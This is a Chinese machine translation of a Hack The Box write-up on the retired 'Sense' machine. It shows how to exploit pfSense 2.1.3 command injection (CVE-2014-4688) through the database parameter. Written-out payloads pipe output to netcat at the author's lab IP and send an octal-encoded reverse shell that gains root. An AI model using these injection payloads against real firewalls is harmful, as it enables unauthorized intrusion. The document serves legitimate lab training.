# 深入了解——黑掉盒子

> 原文：<https://infosecwriteups.com/dive-into-sense-hack-the-box-2f700ef7f09c?source=collection_archive---------1----------------------->


Sense 是流行的 pen-test 平台 [Hack The Box](https://www.hackthebox.eu/) 上的一台容易退役的机器。在这篇文章中，我将向您展示如何使用一个已知的公共脚本来利用它，并通过编写一个定制的有效负载来手动利用它们。

首先，让我们运行 Nmap 来发现这台机器中开放的端口:



端口 80 和 443 上运行着一台 web 服务器。在浏览器上访问它，我们会看到一个 Pfsense 登录页面:


在谷歌上快速搜索会向我们展示 Pfsense 的默认凭据。也许管理员没有遵循最佳实践，没有更改默认配置。



不幸的是，这些凭证不起作用。因此，我们将尝试模糊网络应用程序，以找到有趣的文件。

Dirbuster 是一个帮助我们模糊化 web 应用程序的伟大工具。让我们启动 UI 并设置我们想要测试的 URL(在我们的例子中是 [https://10.10.10.60/](https://10.10.10.60/) )。Dirbuster 有一些默认的单词表，对于这篇文章，我选择了中小写的目录列表。在 Kali 中，它位于*/usr/share/dir buster/word list/*。

我们来搜索一下*。txt* 和*。php* 文件扩展名也是。



扫描完成后，我们可以注意到几个文件。大多数的*。php* 文件呈现登录页面，但是另外两个文件似乎很有趣。



首先我们来看看 *changelog.txt* 文件。似乎这个系统还有一个已知的漏洞。让我们记住它。



现在，检查 *system-users.txt* 和…太好了！我们发现了用户名。我们没有密码，但有一个提示，这是一个默认密码。



在登录页面上输入 *rohit* 和 *pfsense* 后，我们可以看到一个控制面板:



在左侧面板中，我们可以看到当前安装的 Pfsense 版本:



知道系统还有一个未打补丁的漏洞，我们来搜索一下这个版本相关的常见漏洞。在 [Pfsense 2.1.3 CVE 页面](https://www.cvedetails.com/vulnerability-list/vendor_id-19535/product_id-51466/version_id-289733/Netgate-Pfsense-2.1.3.html)可能会注意到很多漏洞。其中一个非常有趣，因为它可以通过 Exec 代码漏洞引导我们进行用户级访问。



现在，让我们来了解一下[CVE-2014–4688](https://www.cvedetails.com/cve/CVE-2014-4688/)。

# 了解漏洞

官方报告称有三条易受攻击的路线:

> 二。问题描述
> 
> 在安全审计期间，在 pfSense WebGUI 中发现了多个命令注入漏洞。
> 
> * diag _ DNS . PHP 中的命令注入[CVE-2014–4688]
> 
> * diag _ smart . PHP 中的命令注入[CVE-2014–4688]
> 
> * status _ RRD _ graph _ img . PHP 中的命令注入[CVE-2014–4688]

在我们的例子中，我们只能访问最后一个文件， *status_rrd_graph_img.php* :



这份文件给了我们更多的细节:

> 传递给 status_rrd_graph_img.php 的数据库值没有经过正确的验证或清理。作为“数据库”值发送的巧尽心思构建的字符串会触发该漏洞。

所以我们知道哪条路线和哪个参数是易受攻击的。现在我们已经了解了问题所在，让我们使用 searchsploit 搜索一个脚本，它可以为我们提供一个 shell。为此，只需运行*searchsploit*p*f sense*即可。



我们想要的漏洞是 *php/webapps/46538.py* 。让我们看看代码，以便更好地理解它在做什么。只需运行*searchsploit-x PHP/web apps/46538 . py*:


如上所述，这个 Python 脚本设置了一个八进制编码的 python reverse shell，它将作为一个值传递给*数据库*参数。最终的 URL 有效负载必须采用以下格式:

```
/status_rrd_graph_img.php?database=queues;printf'<octal_enc_cmd>'|sh
```

但是为什么我们需要以这种奇怪的格式传递命令呢？

首先，让我们理解为什么我们需要使用*队列*数据库。在 Google 上搜索有可能从*status _ RRD _ graph _ img . PHP*得到源代码。看一下这段代码:



*strstr(str1，str2)* PHP 函数验证 *str1* 中是否出现 *str2* 。因此，正如您在上面看到的，如果数据库参数中存在一个 *queues* 或 *queuesdrop* 字符串，就会调用 *exec* 函数。我们也可以使用 *queuesdrop* ，这没什么区别。

**好，对！但是为什么是八进制格式呢？**

我们之所以使用它，是因为尽管该应用程序容易受到代码执行的攻击，但有些字符很难通过。出现这种情况是因为*status _ RRD _ graph _ img . PHP*的 PHP 代码读取数据库参数，直到第一个反斜杠参数('/')。简单的命令仍然可以直接执行，例如:



在这里，我只是调用了易受攻击的路由，并将数据库参数传递为:

```
queues;echo+'abc'+|nc+10.10.14.4+4444
```

这个命令只是捕捉 *echo* 命令(‘ABC’)的输出，并通过 Netcat 发送给我的机器。重要的是，在请求这个路由之前，我需要通过键入以下命令来启动一个本地服务器:

```
nc -lnvp 4444
```

正如你在下面看到的，它是有效的:



但是您可以注意到传递路径参数会导致失败。所以使用八进制方法是规范化这些字符并执行所有操作的更好方法。

基本上，事情是这样的:

**printf<octal _ enc _ str>只是一个打印函数，将八进制字符串打印成文本**

**| sh** 意味着我们将之前 *printf* 生成的输出重定向为 *sh* 程序的输入，所以现在我们将这个字符串作为外壳代码执行。

现在我们确切地知道了这里发生了什么，让我们来获取用户和根标志！首先，我将展示如何利用我们之前发现的 python 漏洞来利用它。然后，我们将通过使用 Netcat 获得一个 shell 来手动利用漏洞。

# 使用 Python 脚本

首先，让我们通过键入以下命令使用 Netcat 启动我们的本地监听器:

```
nc -lnvp 4444
```

现在让我们回到 *searchsploit* ，看看我们需要设置的脚本参数:

最后，执行它:



好像剧本已经写完了。现在，让我们检查一下我们的服务器:



太好了，是根用户！现在只需要搜索标志:


# 没有剧本

好吧，那个剧本完美地完成了！但是我们能用另一种壳技术繁殖吗？当然，我们已经知道如何利用这个漏洞！现在让我们使用 Netcat 反向 shell 来完成它。我喜欢用 Netcat，因为一台机器更有可能有 Netcat，而不是某个特定的语言。Netcat 默认安装在一些基于 Linux 的系统中。

为此，Msfvenom 将帮助我们。让我们搜索反向 shell 负载:



我们需要*cmd/UNIX/reverse _ netcat*有效负载。让我们来看看我们需要传递的参数:



这个有效负载将生成一个基于 Netcat 的 shell，我们只需要传递本地主机和本地端口值作为默认值(4444)。



现在我们有了有效载荷，让我们把它转换成一个八进制字符串。这可以通过脚本或任何在线工具来完成。转换后，我们应该将其传递给 *printf* 命令，如下所示:

```
queues;printf+'\155\153\146\151\146\157\40(...)'|sh
```

现在我们只需要像以前一样使用 Netcat 启动本地服务器，然后在浏览器中请求 URL:



最后，正如你在下面看到的，它成功了:



参考资料:

*   [千变万化安全— Pfsense 漏洞](https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/)

查看我的另一篇关于蹩脚盒子的文章:

*   [潜入 Lame —黑掉盒子](https://medium.com/rd-shipit/dive-into-hack-the-box-lame-ec44fccb5711)